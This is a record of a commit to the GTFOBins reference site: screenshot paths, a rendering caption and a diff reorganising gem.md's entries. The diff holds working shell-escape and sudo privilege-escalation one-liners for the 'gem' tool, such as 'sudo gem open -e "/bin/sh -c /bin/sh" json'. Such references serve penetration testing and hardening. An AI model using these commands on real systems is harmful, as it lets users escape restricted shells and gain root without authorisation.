

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gem.md, in a window 1280 px wide. Shown: the whole page at 92% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1047 px from its top, so only the background shows below that.

Commit message:
Fix gem format

```diff
--- a/_gtfobins/gem.md
+++ b/_gtfobins/gem.md
@@ -1,15 +1,12 @@
 ---
 functions:
   shell:
-    - description: This spawns an interactive shell. Requires the name of an installed gem to be provided (`json` is usually installed).
+    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
       code: gem open -e "/bin/sh -c /bin/sh" json
-  sudo:
-    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/). Requires the name of an installed gem to be provided (`json` is usually installed).
+    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`json` is usually installed).
       code: |
-        sudo gem open json
+        gem open json
         :!/bin/sh
-    - description: This executes an arbitrary command as the gem editor. Requires the name of an installed gem to be provided (`json` is usually installed).
-      code: sudo gem open -e "/bin/sh -c /bin/sh" json
     - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
       code: |
         TF=$(mktemp -d)
@@ -20,4 +17,7 @@ functions:
         TF=$(mktemp -d)
         echo 'system("/bin/sh")' > $TF/x
         sudo gem install --file $TF/x
+  sudo:
+    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
+      code: sudo gem open -e "/bin/sh -c /bin/sh" json
 ---
```
